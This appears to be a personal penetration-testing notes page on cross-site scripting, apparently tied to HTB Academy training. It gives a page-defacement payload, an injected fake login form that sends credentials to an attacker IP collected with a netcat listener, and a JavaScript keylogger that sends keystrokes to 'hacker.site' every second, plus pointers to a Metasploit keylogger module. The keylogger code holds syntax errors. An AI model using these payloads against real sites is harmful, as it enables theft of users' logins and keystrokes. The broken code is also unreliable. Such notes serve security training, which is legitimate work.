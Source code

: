 - Page Text `DOM.innerHTML`

```html
<script>document.getElementById("todo").innerHTML = "New Text"</script>

<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>

```


**Defacement with credential stealing**: Consider this payload in a website.

```
\`/'</script/--!><h3>Please login to continue</h3><form action=http://10.10.14.198>    <input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>
```

Have a netcat listener ready for getting the creds that may be sent.  If any victim attempts to log in with the form, we will get their credentials.


### 4. Keyloggers

A tool: [http_javascript_keylogger](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/capture/http_javascript_keylogger.rb). See also [my notes on that metasploit module](../metasploit.md).

Event logger from [BeEF](../beef.md).

The following code:

```js
var keys = "" //Where > where to store the key strokes
document.onkeypress = function(e) {
	var get = windows.event ? event : eM
	var key = get.keyCode ? get.keyCode : get.charCode;
	key = String.fromCharCode(key);
	keys += key;
}

window.setInterval(function()) {
	if(keys != "") {
		//HOW> sends the key strokes via GET using an Image element to listening hacker.site server
		var path = encodeURI("http://hacker.site/keylogger?k=" + keys);
		new Image().src = path;
		keys = "";
		
	}
}, 1000; // WHEN > sends the key strokes every second
```

Additionally, we have the [metasploit](../metasploit.md) module auxiliary(http_javascript_keylogger), an advance version of the previous javascript code. It creates the Javascript payload with a keylogger, which could be injected within the vulnerable web page and automatically starts the listening server. To see how it works, set the DEMO option to true.
